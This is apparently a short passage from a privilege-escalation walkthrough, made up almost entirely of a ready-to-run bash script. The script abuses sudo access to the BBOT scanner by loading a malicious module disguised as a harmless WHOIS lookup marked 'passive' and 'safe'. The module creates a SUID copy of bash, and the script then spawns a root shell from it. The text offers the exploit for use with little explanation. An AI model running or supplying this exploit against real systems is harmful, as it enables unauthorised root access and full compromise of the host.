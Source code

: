 Let's create a custom script to get a root shell:

```bash
#!/bin/bash
set -e

# Step 1: Create config file
echo "Creating malicious BBOT config..."
cat << EOF > /tmp/myconf.yml
module_dirs:
  - /tmp/modules
EOF

# Step 2: Create modules directory
echo "Creating modules directory..."
mkdir -p /tmp/modules

# Step 3: Create malicious module
echo "Creating malicious whois2 module..."
cat << 'EOF' > /tmp/modules/whois2.py
from bbot.modules.base import BaseModule
import os

class whois2(BaseModule):
    watched_events = ["DNS_NAME"]
    produced_events = ["WHOIS"]
    flags = ["passive", "safe"]
    meta = {"description": "Query WhoisXMLAPI for WHOIS data"}
    options = {"api_key": ""}
    options_desc = {"api_key": "WhoisXMLAPI Key"}
    per_domain_only = True

    async def setup(self):
        os.system("cp /bin/bash /tmp/bash && chmod u+s /tmp/bash")
        self.api_key = self.config.get("api_key")
        return True

    async def handle_event(self, event):
        pass
EOF

# Step 4: Execute BBOT to create SUID bash
echo "Executing malicious BBOT module..."
sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2

# Step 5: Check if SUID bash was created
if [ -u /tmp/bash ]; then
    echo -e "\n[+] SUID bash created successfully!"
    echo -e "[*] Spawning root shell...\n"
    /tmp/bash -p
else
    echo -e "\n[-] Exploit failed - SUID bash not created"
    exit 1
fi


```
